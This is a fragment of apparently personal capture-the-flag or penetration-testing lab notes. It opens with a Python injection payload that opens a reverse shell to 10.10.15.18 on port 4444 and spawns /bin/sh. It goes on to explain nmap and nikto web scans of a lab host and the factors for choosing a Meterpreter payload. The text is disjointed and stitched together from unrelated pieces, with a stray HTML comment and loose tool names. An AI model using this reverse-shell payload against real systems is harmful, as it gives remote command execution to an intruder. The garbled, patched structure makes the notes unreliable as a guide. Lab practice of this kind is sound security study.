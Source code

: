 
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.15.18',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#

<!-- Omit 
Next scan is targeted towards port 80 (HTTP)

Both of these scans can scan for vulnerabilities for port 80 (HTTP) web server & discover hidden directories. 
nmap -p 80 --script=http-enum 10.10.11.208
– -p 80: this command instructs Nmap to perform a basic scan on port 80 (-p 80) of the target IP address 10.10.11.208. 
– --script=http-enum: this script is used to enumerate and gather information about directories and files on the web server.
nikto -h 10.10.11.208 

     (Nikto is a widely used open-source web vulnerability scanner that helps identify potential security vulnerabilities and misconfigurations in web servers)

– -h: flag specifies the target hostname or IP address that Nikto will scan.--->             
               show modules
               msfvenom
               meterpreter


Your decision on which version of Meterpreter to use will be mostly based on three factors;

    The target operating system (Is the target operating system Linux or Windows? Is it a Mac device? Is it an Android phone? etc.)
    Components available on the target system (Is Python installed? Is this a PHP website? etc.)
    Network connection types you can have with the target system (Do they allow raw TCP connections? Can you only have an HTTPS reverse connection? Are IPv6 addresses not as closely monitored as IPv4 addresses? etc.) 


run the scan ^